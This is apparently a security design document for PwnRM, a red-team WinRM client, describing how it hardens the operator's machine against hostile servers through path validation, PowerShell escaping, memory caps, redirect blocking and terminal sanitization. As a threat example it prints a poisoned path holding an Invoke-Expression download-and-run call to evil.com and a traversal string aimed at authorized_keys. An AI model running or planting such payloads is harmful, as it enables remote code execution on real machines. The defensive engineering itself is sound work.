

# 06 — Security Boundaries, Defensive Hardening & Anti-Exploit Controls

## 1. Threat Model & Operator Security Invariants

In adversarial operations, red team operators frequently interact with untrusted remote systems, honeypots, or compromised hosts that may attempt to counter-exploit the operator's management console. 

PwnRM v2.1 enforces **8 deterministic security boundary gates** to guarantee that the operator's machine cannot be compromised by malformed server responses, rogue redirects, memory exhaustion attacks, thread race conditions, or command injection differentials:



---

## 2. Server-Returned Path Traversal & Injection Defense (CWE-22 / CWE-73)

### 2.1 The Vulnerability: Client-Trust of Server-Returned Paths (GHSA-x4cv)

When an operator downloads remote files or enumerates directory structures, an adversarial server could return poisoned filenames containing directory traversal sequences or PowerShell command injection payloads:

```text
C:\Windows\Temp\..\..\..\Users\Operator\.ssh\authorized_keys
or
C:\Temp\$(Invoke-Expression(New-Object Net.WebClient).DownloadString('http://evil.com/x'))
```

If the client application blindly interpolates these strings into local filesystem operations or downstream commands, the remote server achieves arbitrary file write or remote code execution (RCE) on the operator's machine.

---

### 2.2 PwnRM Deterministic Regex Whitelist Guard

All server-returned paths are strictly validated against `_SAFE_WIN_PATH_RE` prior to any string interpolation, downloading, or filesystem interaction:

```python
_SAFE_WIN_PATH_RE = re.compile(
    r'^(?:[A-Za-z]:|\\\\[a-zA-Z0-9_.-]+\\[a-zA-Z0-9_.-]+)[\\\/][^\x00-\x1f"$`|&;<>{}()]*$'
)

@classmethod
def _validate_remote_path(cls, path: str) -> str:
    stripped = path.strip()
    if not cls._SAFE_WIN_PATH_RE.match(stripped):
        raise ValueError(
            f"Remote path failed safety validation: {stripped!r}\n"
            "  The WinRM server returned a path containing unsafe characters.\n"
            "  This may indicate a malicious or compromised target."
        )
    return stripped
```

#### Enforced Safety Constraints:
- **Canonical Windows Format**: Must begin with a valid drive letter (`C:\`) or UNC share format (`\\server\share\`).
- **Control Character Rejection**: Rejects all non-printable ASCII control characters (`\x00-\x1f`).
- **Shell Metacharacter Rejection**: Rejects `"`, `$`, `` ` ``, `|`, `&`, `;`, `<`, `>`, `{`, `}`, `(`, `)`.

---

## 3. PowerShell String Parsing Context Differentials (CWE-78 / CWE-88)

PowerShell evaluates single-quoted literals and double-quoted strings using completely distinct parsing state machines:

```mermaid
graph LR
    Input["Untrusted Input String"]
    Input -->|Single-Quoted Context '...'| PSE["_pse() -> Double Single Quotes ('')"]
    Input -->|Double-Quoted Context \"...\"| PDE["_pde() -> Escape Backtick (``), Dollar (`$), Quote (`\")]
```

### 3.1 Single-Quote Context Escaper (`_pse`)

Inside single-quoted literals (`'...'`), PowerShell treats all characters literally, with the single quote (`'`) being the only escape sequence (`''` represents an escaped quote):

```python
def _pse(s: str) -> str:
    """Escapes single-quoted PowerShell literals (' -> '')."""
    return str(s).replace("'", "''")
```

---

### 3.2 Double-Quote Context Escaper (`_pde`)

Inside double-quoted strings (`"..."`), PowerShell evaluates the backtick (`` ` ``) as the escape character, expands `$variable` expressions, and executes subexpressions (`$(command)`).

If backticks are not escaped before quotes, an attacker supplying a payload such as `` `"$($payload) `` neutralizes the quote escape. Therefore, **the replacement order in `_pde` is mathematically critical**:

```python
def _pde(s: str) -> str:
    """
    Escapes double-quoted PowerShell strings.
    Order is critical: backticks MUST be escaped before dollars and quotes.
    """
    s = str(s)
    s = s.replace("`", "``")
    s = s.replace('$', '`$')
    s = s.replace('"', '`"')
    return s
```

---

## 4. Application-Layer OOM Denial-of-Service Defense (CWE-400)

Adversarial servers returning infinite data streams (e.g. streaming `0x00` endlessly) cannot exhaust the operator's machine memory:
1. **Synchronous Execution Cap**: `run_sync()` enforces a strict **1MB output cap**. Upon reaching 1MB, the stream is cleanly truncated, an error notice is appended, and the remote pipeline is interrupted.
2. **Download Stream Cap**: File downloads via `!download` enforce a **256MB stream ceiling** (`PWNRM_MAX_DL`).
3. **PSRP Binary Fragment Cap**: Message fragment buffers are bounded to **16MB maximum length**.

---

## 5. SSRF & Malicious Redirect Defense (CWE-918)

Rogue WinRM HTTP listeners attempting to redirect HTTP requests to cloud metadata endpoints (`http://169.254.169.254/latest/meta-data/`) or internal network services are strictly blocked:
- `max_redirects = 0`: HTTP redirect responses (301, 302, 307, 308) are rejected immediately as transport errors.
- `trust_env = False`: Ignores ambient `HTTP_PROXY` and `HTTPS_PROXY` environment variables unless explicitly passed by operator flags.

---

## 6. Multi-Tenant NTFS ACL Blindspot Hardening (CWE-276 / CWE-732)

On Windows operating systems, folders created via `os.mkdir()` inherit default NTFS DACLs from parent directories, allowing standard non-administrative users on multi-tenant jump boxes to inspect sensitive loot:

```powershell
# PwnRM executes icacls to strip inheritance and restrict access strictly to the current user:
icacls "$loot_dir" /inheritance:r /grant:r "$($env:USERNAME):(OI)(CI)F"
```

---

## 7. Atomic File & Temp Directory Creation (CWE-367 / CWE-377)

To prevent TOCTOU symlink hijacking on shared jump hosts:
1. Temporary files and session descriptors are opened with atomic flags: `os.O_CREAT | os.O_EXCL | os.O_WRONLY`.
2. POSIX permissions are explicitly set to `0o600` on files and `0o700` on directories at the moment of creation.

```python
import os

def atomic_create_file(filepath: str, initial_data: bytes = b"") -> int:
    """
    Atomically creates a file exclusively.
    Fails if the file already exists or points to a pre-created symlink.
    """
    flags = os.O_WRONLY | os.O_CREAT | os.O_EXCL
    if hasattr(os, "O_BINARY"):
        flags |= os.O_BINARY
    
    # Enforce 0600 permissions at creation time
    fd = os.open(filepath, flags, 0o600)
    if initial_data:
        os.write(fd, initial_data)
    return fd
```

---

## 8. Terminal ANSI & VT100 Escape Sanitization (CWE-117 / CWE-150)

Adversarial outputs containing raw VT100 / OSC escape sequences (e.g. OSC 52 clipboard hijacking or terminal line hiding) are scrubbed via [`strip_ansi()`](file:///D:/PwnRM/src/pwnrm/core/utils.py#L42-L60) before printing to the operator's terminal:

```python
_ANSI_RE = re.compile(
    r'\x1b'
    r'(?:'
    r'\[[\x20-\x3f]*[\x40-\x7e]'                      # CSI sequences
    r'|\](?:[^\x07\x1b]|\x1b(?!\\))*(?:\x07|\x1b\\)'  # OSC sequences
    r'|P(?:[^\x1b]|\x1b(?!\\))*(?:\x1b\\)'            # DCS sequences
    r'|[NOno78MNPX^_c\\]'                              # Fe sequences
    r'|[\x40-\x5f]'
    r')'
)
_CTRL_RE = re.compile(r'[\x00-\x08\x0b\x0c\x0e-\x1f\x7f]')

def strip_ansi(s: str) -> str:
    """Strip ANSI/VT100 escape sequences and non-printable control characters."""
    if s is None:
        return ""
    return _CTRL_RE.sub('', _ANSI_RE.sub('', str(s)))
```

---

## 9. Thread-Safe Mutex Lock & Socket Timeout Protection on Multiplexed Tunnels

When multiplexing in-band SOCKS5 connections and port forwards over active PSRP runspaces:
1. `Socks5Server` and `PortForwarder` guard all connection tracking structures (`active_tunnels`, `forwards`) with `threading.Lock()`.
2. Enforces socket timeout guards (`settimeout(5.0)`) and non-blocking `select.select()` loops to cleanly tear down stale client handles and prevent deadlocks on abrupt disconnections.

---

## 10. Security Boundary Test Matrix & Verification Coverage

Every gate in PwnRM's defense-in-depth architecture is validated with automated regression test suites under `tests/` (**41 tests, 100% pass rate**):

| Security Gate | Target CWE | Test Suite Path | Verification Strategy |
|---|---|---|---|
| **Gate 1: SSRF & Redirect** | CWE-918 | `tests/test_transports.py` | Mock HTTP 301/302 redirects to `169.254.169.254`; assert immediate `TransportError`. |
| **Gate 2: OOM Buffer Caps** | CWE-400 | `tests/test_security_guards.py` | Feed 10MB infinite stream to `run_sync`; assert truncated at 1MB and pipeline interrupted. |
| **Gate 3: Remote Path Regex** | CWE-22 / CWE-73 | `tests/test_security_guards.py` | Pass traversal strings (`..\..\evil`) and injection payloads; assert `ValueError`. |
| **Gate 4: Shell Escapers** | CWE-78 / CWE-88 | `tests/test_security_guards.py` | Test nested quote matrices (`' " ` $ ()`); verify zero syntax breakage or subexpression execution. |
| **Gate 5: ANSI Sanitizer** | CWE-117 / CWE-150 | `tests/test_security_guards.py` | Inject OSC 52 clipboard set and CSI clear sequences; verify complete byte stripping. |
| **Gate 6: NTFS ACL Hardening** | CWE-276 / CWE-732 | `tests/test_loot.py` | Audit created directory DACLs on Windows; verify inheritance removal and single-user grant. |
| **Gate 7: Atomic File Creation** | CWE-367 / CWE-377 | `tests/test_loot.py` | Create pre-existing symlinks in loot directory; verify `FileExistsError` on `O_CREAT | O_EXCL`. |
| **Gate 8: Thread-Safe Tunneling**| CWE-362 / CWE-667 | `tests/test_tunnel.py` | Simulate concurrent connect/disconnect cycles; verify zero deadlocks and clean socket teardown. |
| **VSS In-Memory Extractor** | CWE-269 / CWE-284 | `tests/test_vss.py` | Verify WMI COM reflection query generation and instant cleanup. |
| **Coerced Auth Engine** | CWE-284 / CWE-294 | `tests/test_coerce.py` | Verify WebDAV, MS-RPRN, MS-EFSR, and MS-DFSNM coercion dispatch stubs. |
| **Windows LAPS Hunter** | CWE-200 / CWE-522 | `tests/test_laps.py` | Verify Legacy and Server 2025 LAPS LDAP search query construction. |
| **AD DACL Scout** | CWE-284 / CWE-732 | `tests/test_acl.py` | Verify Tier-0 DACL audit queries (`AdminSDHolder`, `Domain Admins`). |
| **Token Impersonation Suite** | CWE-250 / CWE-269 | `tests/test_token.py` | Verify token privilege triage and impersonation routine dispatch. |
